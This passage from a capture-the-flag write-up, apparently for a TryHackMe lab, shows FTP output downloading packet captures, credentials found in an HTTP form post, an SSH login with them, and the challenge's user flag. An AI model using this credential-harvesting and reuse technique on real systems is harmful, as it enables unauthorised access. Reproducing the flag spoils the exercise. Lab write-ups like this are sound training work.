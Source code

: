 ```
226 Transfer complete.
7272 bytes received in 00:00 (78.34 KiB/s)
ftp> ls
229 Entering Extended Passive Mode (|||32168|)
150 Here comes the directory listing.
-rw-rw-r--    1 1000     1000         7272 Mar 06  2023 siemFTP.pcapng
-rw-rw-r--    1 1000     1000      1978716 Mar 06  2023 siemHTTP1.pcapng
-rw-rw-r--    1 1000     1000      1972448 Mar 06  2023 siemHTTP2.pcapng
226 Directory send OK.
ftp> get siemHTTP1.pcapng
local: siemHTTP1.pcapng remote: siemHTTP1.pcapng
229 Entering Extended Passive Mode (|||13631|)
150 Opening BINARY mode data connection for siemHTTP1.pcapng (1978716 bytes).
100% |************************************************************************************************************************************************************************************************|  1932 KiB    1.06 MiB/s    00:00 ETA
226 Transfer complete.
1978716 bytes received in 00:01 (1.00 MiB/s)
ftp> get siemHTTP2.pcapng
local: siemHTTP2.pcapng remote: siemHTTP2.pcapng
229 Entering Extended Passive Mode (|||11064|)
150 Opening BINARY mode data connection for siemHTTP2.pcapng (1972448 bytes).
100% |************************************************************************************************************************************************************************************************|  1926 KiB    1.11 MiB/s    00:00 ETA
226 Transfer complete.
1972448 bytes received in 00:01 (1.06 MiB/s)
```

From there, after analysing the `pcap` files using wireshark, and in the `siemHTTP2.pcapng` file, we found a form post request containing some credentials:

```
uname=valleyDev&psw=ph0t0s1234&remember=on
```

Trying to connect to it using ssh, we succeed:

```
└─$ ssh valleyDev@10.10.111.218                                                                                                                                                                                                        130 ⨯
valleyDev@10.10.111.218's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-139-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 * Introducing Expanded Security Maintenance for Applications.
   Receive updates to over 25,000 software packages with your
   Ubuntu Pro subscription. Free for personal use.

     https://ubuntu.com/pro
valleyDev@valley:~$ ls
user.txt
valleyDev@valley:~$ cat user.txt
THM{k@l1_1n_th3_v@lley}
valleyDev@valley:~$ 
```
